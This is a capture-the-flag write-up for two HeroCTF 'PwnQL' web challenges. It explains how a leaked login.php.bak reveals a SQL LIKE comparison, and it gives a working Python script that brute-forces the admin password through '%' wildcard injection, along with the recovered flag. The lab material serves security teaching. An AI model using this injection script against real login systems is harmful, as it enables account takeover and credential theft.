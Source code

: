 <h1>Challange: PwnQL</h1>

<h1>Description</h1>

Login as *admin* to get the flag.

URL: ```http://chall1.heroctf.fr:8080```

<h1>Solution</h1>

Lets try to access the given URL 

![Dashboard](assets/Dashboard.png)

There is a login panel and let's try to login using basic credentials ```admin:admin```

![wrong_credntials](assets/wrong_credntials.png)

Those did not work but in the response we can see there is a backup file called ```login.php.bak```. so let's download it.

![login_response](assets/login_response.png)

In the source code, we can see that they are using a like operator. so we can simply login to the application using like operator.

![source_code](assets/source_code.png)

After login to the account we can see the flag.

![flag](assets/flag.png)



<h1>Challange : PwnQL 2</h1>

<h1>Description</h1>

Extract the *admin*'s password from the database.

URL : ```http://chall1.heroctf.fr:8080```

<h1>Solution</h1>

we already know that they are using a like operator. so we can simply Bruteforce the password using the below script.

```import string
import requests

password=''

chars = string.ascii_lowercase+string.digits+'@'

while len(password)<=20:
        for i in chars:
                print(f'[+] Trying {i}')
                r = requests.post('http://chall1.heroctf.fr:8080/index.php',data={'username':'admin','password':f'{password}{i}%'})
                if 'Wrong' not in r.text:
                        password+=i
                        print(f'[+] Password : {password}')
```

After running the script we successfully got the password ```s3cur3p@ss```.

![password](assets/password.png)

As mentioned in the description password is the flag.
```Hero{s3cur3p@ss}```